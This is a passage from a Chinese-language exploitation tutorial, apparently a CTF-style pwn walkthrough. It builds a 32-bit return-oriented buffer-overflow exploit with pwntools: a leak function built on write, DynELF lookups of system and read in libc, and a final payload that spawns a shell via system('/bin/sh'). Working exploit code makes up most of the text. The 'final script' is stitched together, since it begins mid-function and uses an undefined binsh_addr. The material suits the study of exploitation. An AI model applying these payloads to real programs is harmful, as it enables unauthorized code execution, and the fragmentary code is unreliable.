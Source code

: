 

这段代码是编译器添加的，用于初始化程序的运行环境后，执行完相应的代码后会跳转到程序的入口函数main运行程序代码。因此，在执行完write函数泄露数据后，我们可以返回到这里刷新一遍程序的环境，相当于是重新执行了一遍程序。现在的payload封装成leak函数如下：



```python
def leak(addr):
       payload = ''
       payload += 'A'*140                   #padding
       payload += p32(write_addr)      #调用write
       payload += p32(start_addr) #write返回到start
       payload += p32(1)                    #write第一个参数fd
       payload += p32(addr)        #write第二个参数buf
       payload += p32(8)                    #write第三个参数size
       io.sendline(payload)
       content = io.recv()[:8]
       print("%#x -> %s" %(addr, (content or '').encode('hex')))
       return content
```



我们加了一行print输出leak执行的状态，用于debug。使用DynELF泄露system函数地址，显示如下:

![](pic5.png)



我们可以利用这个DynELF类的实例泄露read函数的真正内存地址，用于读取”/bin/sh”字符串到内存中，以便于执行system(“/bin/sh”)。最终脚本如下：

```python
payload += p32(1)                    #write第一个参数fd
       payload += p32(addr)               #write第二个参数buf
       payload += p32(8)                    #write第三个参数size
       io.sendline(payload)
       content = io.recv()[:8]
       print("%#x -> %s" %(addr, (content or '').encode('hex')))
       return content
 
d = DynELF(leak, elf = elf)
system_addr = d.lookup('system', 'libc')
read_addr = d.lookup('read', 'libc')
 
log.info("system_addr = %#x", system_addr)
log.info("read_addr = %#x", read_addr)
 
payload = ''
payload += 'A'*140                          #padding
payload += p32(read_addr)              #调用read
payload += p32(system_addr)          #read返回到system
payload += p32(0)                           #read第一个参数fd/system返回地址，无意义
payload += p32(binsh_addr)             #read第二个参数buf/system第一个参数
payload += p32(8)                           #read第三个参数size
 
io.sendline(payload)
io.sendline('/bin/sh\x00')
io.interactive()
```

